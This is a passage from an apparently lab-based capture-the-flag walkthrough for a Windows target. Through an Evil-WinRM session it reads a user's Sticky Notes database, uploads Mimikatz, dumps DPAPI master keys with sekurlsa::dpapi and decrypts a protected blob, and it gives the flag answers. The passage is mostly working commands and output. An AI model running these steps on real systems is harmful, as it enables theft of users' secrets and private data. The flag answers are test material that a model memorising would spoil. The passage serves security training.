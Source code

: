 ```bash
```

### FLAG 026: Sticky Notes Database (25 points)
**Location**: Windows Sticky Notes SQLite database
```bash
# In Evil-WinRM session:
# Navigate to Sticky Notes folder
*Evil-WinRM* PS C:\> cd "$env:LOCALAPPDATA\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState"

# List database files
*Evil-WinRM* PS C:\Users\jsmith\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState> ls

# Read the SQLite database as text
*Evil-WinRM* PS C:\Users\jsmith\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState> $bytes = [System.IO.File]::ReadAllBytes("plum.sqlite")
*Evil-WinRM* PS C:\Users\jsmith\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState> $text = [System.Text.Encoding]::UTF8.GetString($bytes)
*Evil-WinRM* PS C:\Users\jsmith\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState> $text | Select-String FLAG
# Output: Remember the flag is FLAG{WEEPINBELL56632373}
```

### FLAG 027: DPAPI Decryption (40 points)
**Location**: DPAPI encrypted blob
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> cd C:\Users\Public\Documents

# Upload Mimikatz if not already present
*Evil-WinRM* PS C:\Users\Public\Documents> upload mimikatz.exe

# Run Mimikatz
*Evil-WinRM* PS C:\Users\Public\Documents> .\mimikatz.exe

# Extract DPAPI master keys
mimikatz # sekurlsa::dpapi
# Note the MasterKey for jsmith's GUID
# MasterKey : 7a4e9d447b2c4e8a9f6b3d1e5c8a9d2f3b5e7c1a8d4f6b2e9a7c5d3f1b8e4a6c

# Decrypt the DPAPI blob
mimikatz # dpapi::blob /in:C:\Users\Public\Documents\dpapi_flag.bin /masterkey:7a4e9d447b2c4e8a9f6b3d1e5c8a9d2f3b5e7c1a8d4f6b2e9a7c5d3f1b8e4a6c
# Output: Decrypted data: FLAG{TENTACRUEL90563793}

mimikatz # exit
```

---
